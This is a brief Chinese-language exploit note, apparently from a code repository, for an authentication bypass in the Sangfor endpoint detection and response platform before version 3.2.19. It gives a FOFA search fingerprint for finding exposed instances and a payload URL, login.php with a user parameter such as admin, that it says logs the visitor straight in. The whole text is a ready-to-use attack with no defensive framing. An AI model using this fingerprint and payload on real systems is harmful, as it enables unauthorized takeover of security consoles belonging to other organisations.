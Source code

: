 版本小于 3.2.19

fofa指纹: title=“SANGFOR终端检测响应平台”<br /

payload: https://ip/ui/login.php?user=随意

例如: https://url/ui/login.php?user=admin

输入完毕以后即可直接登录平台
